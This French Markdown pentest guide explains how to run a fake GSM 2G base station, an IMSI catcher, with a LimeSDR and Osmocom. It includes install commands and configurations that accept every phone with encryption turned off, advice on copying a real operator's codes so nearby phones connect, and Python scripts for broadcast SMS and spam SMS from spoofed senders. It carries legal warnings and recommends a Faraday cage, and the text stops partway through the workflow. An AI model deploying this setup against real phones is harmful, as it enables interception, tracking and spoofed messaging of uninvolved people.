






# 📶 Fausse BTS GSM avec LimeSDR

> [!info] **En 1 phrase**
> Monter une **vraie station GSM 2G** avec un **LimeSDR** + la stack **Osmocom**
> (osmo-nitb / osmo-bts-trx / osmo-trx-lms) → les téléphones autour s'y connectent
> (appels inter-téléphones, **SMS**, interception) — **à tester uniquement en cage de Faraday**.

---

> [!warning] ⚠️ **AVERTISSEMENT LÉGAL**
> Cette procédure est **hautement illégale dans la plupart des régions du monde**.
> À n'exécuter que dans un **environnement RF fermé** (aussi appelé **cage de Faraday**).

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| **Type** | Outil / Carte SDR |
| **Domaine** | Hardware Hacking — RF / Telecom |
| **Niveau** | Advanced → Expert |
| **OS cibles** | Ubuntu 18.04+ / Debian (Linux embedded) |
| **Matériel requis** | LimeSDR (USB ou PCIe), antenne GSM, SIM Sysmocom, PC sous Linux |
| **Complexité** | Élevée |
| **Dernière mise à jour** | 2026-08-16 |

> [!info] 📊 **Diagramme de contexte**
> ```mermaid
> flowchart LR
>     A["LimeSDR (SDR)"] --> B["Stack Osmocom (BTS software)"]
>     B --> C["Téléphone cible (IMSI + MSISDN)"]
>     C --> D["Appels / SMS / Interception"]
>     style A fill:#e1f5fe
>     style D fill:#c8e6c9
> ```

---

## 🎯 Concept

> Une **BTS (Base Transceiver Station)** est le composant radio d'un réseau cellulaire. En utilisant un SDR comme le **LimeSDR** combiné à la suite logicielle **Osmocom** (open source), il est possible de simuler une station GSM 2G complète — un « Network In A Box » (NITB) — à laquelle les téléphones environnants se connectent automatiquement, permettant l'interception d'appels, de SMS, et le suivi d'IMSI.



**Quand l'utiliser en pentest hardware :**
- Test de résilience d'un environnement RF isolé (cage de Faraday lab)
- Démonstration de la faiblesse intrinsèque du protocole 2G (pas d'authentification réseau mutuelle)
- Évaluation de la rétrogradation 2G (downgrade attack) sur des appareils corporatifs
- Analyse du comportement IMSI catcher dans un contexte légal

---

## 🧠 Concepts fondamentaux

### GSM 2G — Architecture simplifiée

Le réseau GSM se compose de plusieurs entités : la **BTS** (station radio), le **BSC** (Base Station Controller), le **MSC** (Mobile Switching Center), et le **HLR** (Home Location Register). Dans une config NITB, toutes ces entités tournent sur une seule machine.

| Terme | Définition |
|---|---|
| **BTS** | Base Transceiver Station — la station radio physique (antenne + émetteur/récepteur) |
| **BSC** | Base Station Controller — gère les handovers, les canaux radio |
| **MSC** | Mobile Switching Center — routage des appels, authentification |
| **HLR** | Home Location Register — base de données des abonnés (IMSI, MSISDN, clés) |
| **ARFCN** | Absolute Radio Frequency Channel Number — identifiant du canal radio (ex. ARFCN 100 = 955 MHz DL) |
| **IMSI** | International Mobile Subscriber Identity — identifiant unique de la SIM |
| **MSISDN** | Mobile Station International Subscriber Directory Number — le numéro de téléphone |
| **A5/0** | Chiffrement GSM désactivé (aucun) — le mode le plus faible |
| **Timeslot** | Un slot temporel dans une frame TDMA GSM (8 timeslots par frame) |

### ARFCN et fréquences GSM

Les bandes GSM principales utilisées pour les BTS laboratoire :

| Bande | Uplink (MHz) | Downlink (MHz) | ARFCN | Région |
|---|---|---|---|---|
| P-GSM 900 | 890–915 | 935–960 | 1–124 | EMEA, APAC |
| E-GSM 900 | 880–915 | 925–960 | 0–124, 975–1023 | EMEA, APAC |
| DCS 1800 | 1710–1785 | 1805–1880 | 512–885 | EMEA, APAC |
| PCS 1900 | 1850–1910 | 1930–1990 | 512–810 | Americas |

> [!note] À vérifier
> Les plages ARFCN exactes peuvent varier selon les variantes régionales (T-GSM, R-GSM). Vérifier la norme 3GPP TS 45.005 pour la table complète.



### Stack Osmocom — Vue d'ensemble

| Composant | Rôle | Port/Interface |
|---|---|---|
| `osmo-trx-lms` | Frontend radio — communique directement avec le LimeSDR via LMS API | LMS (interne) |
| `osmo-bts-trx` | Couche BTS — gère les trames GSM, slots, canaux | UDP 5700 (→ osmo-trx) |
| `osmo-nitb` | BSC + MSC + HLR — contrôleur de réseau complet | Abis/IPA (→ osmo-bts) |
| `openbsc.cfg` | Config du réseau (MCC, MNC, auth, band, timeslots) | Fichier config |
| `hlr.sqlite3` | Base d'abonnés (IMSI, extension, TMSI) | SQLite |

---

## 🔌 Matériel / Composants

### Outils principaux

| Outil | Type | Usage | Prix | Source |
|---|---|---|---|---|
| LimeSDR Mini v2 | SDR full-duplex | Frontend radio 10 MHz–3.5 GHz | ~$300 | LimeSDR Mini v2 documentation |
| LimeSDR (USB) | SDR full-duplex | Frontend radio 100 kHz–3.8 GHz, MIMO 2x2 | ~$500 | LimeSDR documentation |
| Antenne GSM 900 MHz | Antenne dipôle/omnidirectionnelle | Émission/réception RF | ~$15–50 | Amazon / AliExpress |
| SIM Sysmocom (sysmoISIM-SJA1) | SIM 4FF | Abonné pour tests GSM | ~€15 | shop.sysmocom.de |
| PC sous Ubuntu 18.04+ | Ordinateur | Héberge la stack Osmocom | — | — |

### Comparaison des SDR

| Caractéristique | LimeSDR Mini v2 | HackRF One | RTL-SDR v3 |
|---|---|---|---|
| **Fréquence** | 10 MHz – 3.5 GHz | 1 MHz – 6 GHz | 24 MHz – 1.7 GHz |
| **Bandwidth** | 30.72 MHz | 20 MHz | 2.4 MHz |
| **TX/RX** | Full-duplex (TX + RX) | Half-duplex (TX ou RX) | RX uniquement |
| **Sample depth** | 12 bits | 8 bits | 8 bits |
| **Sample rate** | 30.72 MSPS | 20 MSPS | 2.4 MSPS |
| **TX power** | Max 10 dBm | Max 0 dBm (ampli externe requis) | N/A (RX only) |
| **MIMO** | Non (Mini) / Oui (USB) | Non | Non |
| **FPGA** | Lattice ECP5 | Cypress FX3 | RTL2832U |
| **Interfaces** | USB 3.0 | USB 2.0 | USB 2.0 |
| **OS support** | Linux, Windows | Linux, Windows | Linux, Windows |
| **Prix** | ~$300 | ~$350 | ~$25 |
| **BTS GSM** | Oui (osmo-trx-lms) | Oui (osmo-trx-hackrf) | Non (RX only) |

> [!note] À vérifier
> Les specs exactes du LimeSDR Mini v2 varient selon la version du PCB (v2.0 vs v2.4). La portée TX/RX est déterminée par les réseaux d'appariement sur chaque port RF.

### Cibles typiques

| Catégorie | Exemples | Protocoles | Vulnérabilités |
|---|---|---|---|
| Téléphones 2G | Anciens smartphones, feature phones | GSM 900/1800 | Rétrogradation 2G, IMSI en clair |
| IoT cellulaire | Modules GSM (SIM800, SIM900) | GSM, GPRS | Creds par défaut, AT commands |
| Tablets SIM | Tablettes avec carte SIM | GSM, 3G | Même vulnérabilités que téléphones |
| Modules M2M | Capteurs GSM industriels | GSM, GPRS | Pas de chiffrement A5/1 |

### Pinout / Brochage du LimeSDR

```
LimeSDR Mini v2 — Ports RF principaux :

    ┌──────────────────────────┐
    │      LimeSDR Mini v2     │
    │                          │
    │  TX1_1 (2–2.6 GHz)  ─── │── Antenne TX bande haute
    │  TX1_2 (30 MHz–1.9 GHz) │── Antenne TX bande basse (GSM 900)
    │  RX1_H (2–2.6 GHz)  ─── │── Antenne RX bande haute
    │  RX1_W (700–900 MHz) ─── │── Antenne RX bande basse (GSM 900)
    │                          │
    │  USB 3.0 ─────────────── │── Connexion PC
    └──────────────────────────┘

    Pour GSM 900 MHz : utiliser TX1_2 (TX) et RX1_W (RX)
```

---

## ⚡ Protocoles

### GSM 2G (UM空中 interface — Um)

| Paramètre | Valeur |
|---|---|
| **Type** | Sans fil (RF) |
| **Vitesse** | 9.6 kbps (voice), 14.4 kbps (GPRS CS-2) |
| **Voltage** | N/A (radio) |
| **Bande passante** | 200 kHz par carrier |
| **Direction** | Full-duplex (FDD) |
| **Modulation** | GMSK (Gaussian Minimum Shift Keying) |
| **Duplex** | FDD (Frequency Division Duplex) |

### Protocoles internes Osmocom



### Comparaison des protocoles

| Protocole | Usage | Sécurité | Usage typique |
|---|---|---|---|
| GSM 2G | Voice + SMS + GPRS | A5/0 (aucun) à A5/3 | BTS laboratoire |
| GPRS (2.5G) | Data packet | GEA-0 (aucun) | Data IoT |
| Um (air interface) | Radio entre BTS et téléphone | Faible (IMSI en clair) | IMSI catcher |
| Abis (IP) | Entre BTS et BSC | None (LAN local) | Interne stack |
| IPA (TCP) | Multiplexage Abis over IP | None | Interne stack |

---

## 🛠️ Installation / Setup

### Prérequis

| Composant | Version | Lien |
|---|---|---|
| Ubuntu | 18.04 LTS (ou supérieur) | ubuntu.com |
| LimeSuite | Dernière version PPA | PPA myriadrf/drivers |
| Osmocom | Dernière version nightly | download.opensuse.org |
| GNU Radio | 3.7+ (optionnel) | PPA myriadrf/gnuradio |

### Installation des paquets

```bash
# 1. Ajouter les PPA LimeMicro (pilotes et GNU Radio précompilés)
sudo add-apt-repository -y ppa:myriadrf/drivers
sudo add-apt-repository -y ppa:myriadrf/gnuradio

# 2. Ajouter les dépôts de builds binaires Osmocom
wget https://download.opensuse.org/repositories/network:/osmocom:/latest/xUbuntu_18.04/Release.key
sudo apt-key add Release.key
rm Release.key
echo "deb https://download.opensuse.org/repositories/network:/osmocom:/latest/xUbuntu_18.04/ ./" | sudo tee /etc/apt/sources.list.d/osmocom-latest.list
sudo apt-get update

# 3. Installer les paquets
sudo apt install osmocom-nitb osmo-trx-lms osmo-bts-trx limesuite
```

| Paquet | Rôle |
|---|---|
| `osmocom-nitb` | **Network In a Box** — tout le nécessaire pour gérer le réseau GSM |
| `osmo-bts-trx` | Le logiciel de **station émettrice** qui gère l'envoi des paquets réseau |
| `osmo-trx-lms` | Le **frontend LimeSDR** de la BTS — le logiciel qui parle réellement au LimeSDR |
| `limesuite` | Le logiciel et les **pilotes du LimeSDR** |

### Connexion physique

```
PC (Ubuntu) ──── USB 3.0 ──── LimeSDR Mini v2
                                    │
                            TX1_2 ──┼── Antenne TX (GSM 900 MHz)
                            RX1_W ──┼── Antenne RX (GSM 900 MHz)
                                    │
                                    └── (ground connecté à la cage de Faraday)

Zone contrôlée :
┌─────────────────────────────────────────┐
│          CAGE DE FARADAY                │
│  LimeSDR + antenne + téléphone cible    │
└─────────────────────────────────────────┘
```

### Outils logiciels

```bash
# Vérifier que le LimeSDR est détecté
LimeUtil --find

# Mettre à jour le firmware
LimeUtil --update

# Vérifier les composants installés
dpkg -l | grep osmo
```

---

## ⚙️ Configuration

### Paramètres du logiciel d'interfaçage

| Option | Valeur par défaut | Description |
|---|---|---|
| `--trx` | `osmo-trx-lms` | Backend radio (LimeSDR via LMS API) |
| `--bts` | `osmo-bts-trx` | Logiciel BTS |
| `--nitb` | `osmo-nitb` | Network In A Box (BSC+MSC+HLR) |
| `--db` | `hlr.sqlite3` | Base SQLite des abonnés |
| `--vty-port` | `4242` | Port telnet pour la console OpenBSC |

### Fichiers de configuration

#### `openbsc.cfg` (utilisé par osmo-nitb)

```ps1
!
! OpenBSC configuration saved from vty
!   !
password foo
!
line vty
 no login
!
e1_input
 e1_line 0 driver ipa
network
 network country code 901
 mobile network code 70
 short name HUEHUE
 long name HUEBRNetwork
 auth policy accept-all
 location updating reject cause 13
 encryption a5 0
 neci 1
 rrlp mode none
 mm info 1
 handover 0
 handover window rxlev averaging 10
 handover window rxqual averaging 1
 handover window rxlev neighbor averaging 10
 handover power budget interval 6
 handover power budget hysteresis 3
 handover maximum distance 9999
 bts 0
  type sysmobts
  band GSM900
  cell_identity 0
  location_area_code 1
  training_sequence_code 7
  base_station_id_code 63
  ms max power 15
  cell reselection hysteresis 4
  rxlev access min 0
  channel allocator ascending
  rach tx integer 9
  rach max transmission 7
  ip.access unit_id 1801 0
  oml ip.access stream_id 255 line 0
  gprs mode none
  trx 0
   rf_locked 0
   arfcn 100
   nominal power 23
   max_power_red 20
   rsl e1 tei 0
   timeslot 0
    phys_chan_config CCCH+SDCCH4
   timeslot 1
    phys_chan_config SDCCH8
   timeslot 2
    phys_chan_config TCH/F
   timeslot 3
    phys_chan_config TCH/F
   timeslot 4
    phys_chan_config TCH/F
   timeslot 5
    phys_chan_config TCH/F
   timeslot 6
    phys_chan_config TCH/F
   timeslot 7
    phys_chan_config TCH/F
```

**Paramètres à connaître avant de toucher :**

```ps1
network country code 901
mobile network code 70
short name HUEHUE
long name HUEBRNetwork
auth policy accept-all
```

- `network country code` → le **MCC** de l'opérateur (le pays). Ex. : **724 = Brésil**.
- `mobile network code` → le **MNC** (quel opérateur). Chaque opérateur mobile a son MNC (certains en ont plusieurs).
- `short name` → **nom court** de l'opérateur.
- `long name` → **nom long** de l'opérateur.
- `auth policy` → comment on **accepte les téléphones** qui tentent de se connecter.

> ⚠️ **Prudence** avec ces réglages, surtout avec une politique `accept-all` : si tu mets un MCC/MNC d'un opérateur existant, **tout téléphone proche de ton LimeSDR s'y connectera**. Le nom de l'opérateur (au moins sur Android) n'apparaît qu'**après connexion**.

#### `osmo-bts.cfg` (utilisé par osmo-bts-trx)

```ps1
!
! OsmoBTS configuration example
!!
!
log stderr
  logging color 1
  logging timestamp 0
  logging level rsl notice
  logging level oml notice
  logging level rll notice
  logging level rr notice
  logging level loop debug
  logging level meas debug
  logging level pag error
  logging level l1c error
  logging level l1p error
  logging level dsp error
  logging level abis error

!
line vty
 no login
!
phy 0
 instance 0
  osmotrx rx-gain 40
  osmotrx tx-attenuation 50
 osmotrx ip local 127.0.0.1
 osmotrx ip remote 127.0.0.1
 no osmotrx timing-advance-loop
bts 0
 oml remote-ip 127.0.0.1
 ipa unit-id 1801 0
 gsmtap-sapi pdtch
 gsmtap-sapi ccch
 band 900
 trx 0
  phy 0 instance 0
```

> Le seul paramètre important ici : **`band`** — il doit correspondre à celui de `openbsc.cfg`.

#### `osmo-trx.cfg` (utilisé par osmo-trx-lms)

```ps1
log stderr
 logging filter all 1
 logging color 1
 logging print category 1
 logging timestamp 1
 logging print file basename
 logging level set-all info
!
line vty
 no login
!
trx
 bind-ip 127.0.0.1
 remote-ip 127.0.0.1
 base-port 5700
 egprs disable
 tx-sps 4
 rx-sps 4
 rt-prio 18
 chan 0
  tx-path BAND1
  rx-path LNAW
```

> Pas grand-chose à changer ici. Avec un **LimeSDR multi-ports** (USB ou PCIe), ajuste
> `tx-path` et `rx-path` vers les chemins souhaités.

### Configuration matérielle

| Paramètre | Recommandé | Min | Max |
|---|---|---|---|
| RX Gain (osmotrx rx-gain) | 40 | 0 | 73 |
| TX Attenuation (osmotrx tx-att) | 50 | 0 | 73 |
| Real-time priority (rt-prio) | 18 | 0 | 99 |
| Sample rate | 30.72 MSPS | 1 MSPS | 61.44 MSPS |
| ARFCN | 100 | 1 | 124 (GSM 900) |

### Adaptateurs compatibles

| Adaptateur | Interface | Usage | Note |
|---|---|---|---|
| LimeSDR Mini v2 | USB 3.0 | Frontend radio GSM | Compact, ~$300 |
| LimeSDR USB | USB 3.0 | Frontend radio GSM + MIMO | ~$500, plus de puissance |
| HackRF One | USB 2.0 | Frontend radio alternatif | Half-duplex, necessite osmo-trx-hackrf |
| Raspberry Pi 4 | SBC | Hébergement stack Osmocom | Recommandé avec root pour rt-prio |

---

## ⌨️ Commandes / Manipulations

### Commandes essentielles

| Commande | Description | Exemple |
|---|---|---|
| `LimeUtil --find` | Détecter le LimeSDR | `LimeUtil --find` |
| `LimeUtil --update` | Mettre à jour le firmware | `LimeUtil --update` |
| `osmo-trx-lms` | Lancer le frontend radio | `sudo osmo-trx-lms` |
| `osmo-nitb` | Lancer le contrôleur réseau | `osmo-nitb` |
| `osmo-bts-trx` | Lancer la station émettrice | `osmo-bts-trx` |
| `telnet 127.0.0.1 4242` | Console OpenBSC | Gestion des abonnés/SMS |

### Lecture / Écriture

```bash
# Lister les abonnés connectés (via telnet)
telnet 127.0.0.1 4242
> show subscriber all

# Envoyer un SMS
> subscriber extension 1001 sms sender extension 2001 send "Hello World"

# Créer un abonné
> subscriber create imsi 999999999999999
> enable
> subscriber imsi 999999999999999 extension 1001
> disable
```

### Shell / Console

```bash
# Connexion à la console OpenBSC via telnet
telnet 127.0.0.1 4242

# Ou via Python (pour automatisation)
python3 -c "
import telnetlib
tn = telnetlib.Telnet('127.0.0.1', 4242)
tn.read_until(b'OpenBSC> ')
tn.write(b'show subscriber all\n')
print(tn.read_until(b'OpenBSC> ').decode())
"
```

---

## 🧪 Exemples pratiques

### 🟢 Débutant — Lancer la BTS et vérifier

```bash
# Étape 1 : Vérifier le LimeSDR
LimeUtil --find

# Étape 2 : Lancer osmo-trx-lms (root pour rt-prio)
sudo osmo-trx-lms

# Étape 3 : Lancer osmo-nitb (dans un autre terminal)
osmo-nitb

# Étape 4 : Lancer osmo-bts-trx (dans un troisième terminal)
osmo-bts-trx

# Étape 5 : Vérifier sur le téléphone
# Aller dans Paramètres → Réseau → Sélection manuelle → Choisir "HUEHUE"
```

### 🟡 Intermédiaire — Lister les abonnés et envoyer un SMS

```bash
# Script bash pour lister les abonnés via la console OpenBSC
echo "show subscriber all" | nc -q 1 127.0.0.1 4242

# Envoyer un SMS via la console
echo "subscriber extension 1001 sms sender extension 2001 send TestSMS" | nc -q 1 127.0.0.1 4242
```

### 🔴 Avancé — Broadcast SMS à tous les abonnés

```python
#!/usr/bin/env python3
"""Diffusion SMS à tous les abonnés connectés via la console OpenBSC."""

import telnetlib
import sqlite3
import sys

HLR_DATABASE = "hlr.sqlite3"
imsi = 999999999999999

def check_extension(conn, extension):
    conn.write(b"show subscriber extension %s\n" % extension.encode())
    res = conn.read_until(b"OpenBSC> ")
    if b"No subscriber found for extension" in res:
        create_subscriber(conn, extension)

def create_subscriber(conn, extension):
    print(f"Création de l'abonné extension {extension}...")
    conn.write(b"show subscriber imsi %d\n" % imsi)
    res = conn.read_until(b"OpenBSC> ")
    if b"No subscriber found for imsi" in res:
        conn.write(b"subscriber create imsi %d\n" % imsi)
        conn.read_until(b"OpenBSC> ")
    conn.write(b"enable\n")
    conn.read_until(b"OpenBSC# ")
    conn.write(b"subscriber imsi %d extension %s\n" % (imsi, extension.encode()))
    conn.read_until(b"OpenBSC# ")
    conn.write(b"disable\n")
    conn.read_until(b"OpenBSC> ")

def get_users():
    db = sqlite3.connect(HLR_DATABASE)
    c = db.cursor()
    c.execute("SELECT * FROM Subscriber")
    for subscriber in c.fetchall():
        yield subscriber[0]
    db.close()

def send_sms(conn, id, extension, message):
    conn.write(b"subscriber id %d sms sender extension %s send %s\n" % (id, extension.encode(), message.encode()))
    res = conn.read_until(b"OpenBSC> ")
    if b"%" in res:
        print(f"Erreur: {res.decode()}")
        sys.exit(1)

if __name__ == "__main__":
    try:
        extension = sys.argv[1]
        message = " ".join(sys.argv[2:])
    except IndexError:
        print("Usage: ./sms_broadcast.py <extension> <message>")
        sys.exit(1)

    conn = telnetlib.Telnet("127.0.0.1", 4242)
    conn.read_until(b"OpenBSC> ")

    check_extension(conn, extension)

    for user_id in get_users():
        send_sms(conn, user_id, extension, message)
        print(f"SMS envoyé à l'abonné ID {user_id}")

    print("Broadcast terminé.")
```

### ⚫ Expert — Spam SMS ciblé avec numéros aléatoires

```python
#!/usr/bin/env python3
"""Spam SMS ciblé avec numéros source aléatoires."""

import telnetlib
import sys
import random
import time

imsi = 999999999999999

def check_extension(conn, extension):
    conn.write(b"show subscriber extension %s\n" % extension.encode())
    res = conn.read_until(b"OpenBSC> ")
    if b"No subscriber found for extension" in res:
        print(f"Extension {extension} introuvable")
        sys.exit(1)

def check_spam_subscriber(conn):
    conn.write(b"show subscriber imsi %d\n" % imsi)
    res = conn.read_until(b"OpenBSC> ")
    if b"No subscriber found for imsi" in res:
        conn.write(b"subscriber create imsi %d\n" % imsi)
        conn.read_until(b"OpenBSC> ")

def send(conn, extension, spam_number, message):
    conn.write(b"enable\n")
    conn.read_until(b"OpenBSC# ")
    conn.write(b"subscriber imsi %d extension %d\n" % (imsi, spam_number))
    conn.read_until(b"OpenBSC# ")
    conn.write(b"disable\n")
    conn.read_until(b"OpenBSC> ")
    conn.write(b"subscriber extension %s sms sender extension %d send %s\n" % (extension.encode(), spam_number, message.encode()))
    res = conn.read_until(b"OpenBSC> ")
    if b"%" in res:
        print(f"Erreur: {res.decode()}")
        sys.exit(1)

if __name__ == "__main__":
    try:
        extension = sys.argv[1]
        repeats = int(sys.argv[2])
        message = " ".join(sys.argv[3:])
    except (IndexError, ValueError):
        print("Usage: ./sms_spam.py <extension> <nb_repeats> <message>")
        sys.exit(1)

    conn = telnetlib.Telnet("127.0.0.1", 4242)
    conn.read_until(b"OpenBSC> ")

    check_extension(conn, extension)
    check_spam_subscriber(conn)

    for i in range(repeats):
        spam_number = random.randint(1000, 9999)
        send(conn, extension, spam_number, message)
        print(f"[{i+1}/{repeats}] SMS depuis {spam_number}")
        time.sleep(2)

    print("Spam terminé.")
```

---

## 🧪 Workflow complet (scénario pas à pas)



### Étape 1 — Installation

| Action | Commande | Résultat attendu |
|---|---|---|
| Ajouter PPA drivers | `sudo add-apt-repository ppa:myriadrf/drivers` | PPA ajouté |
| Ajouter PPA Osmocom | `echo "deb ..." \| sudo tee ...` | Dépôt ajouté |
| Installer paquets | `sudo apt install osmocom-nitb osmo-trx-lms osmo-bts-trx limesuite` | Installation complète |

### Étape 2 — Mise à jour firmware

| Action | Commande | Résultat attendu |
|---|---|---|
| Détecter LimeSDR | `LimeUtil --find` | Affiche le device |
| Mettre à jour | `LimeUtil --update` | Firmware mis à jour |

### Étape 3 — Configuration

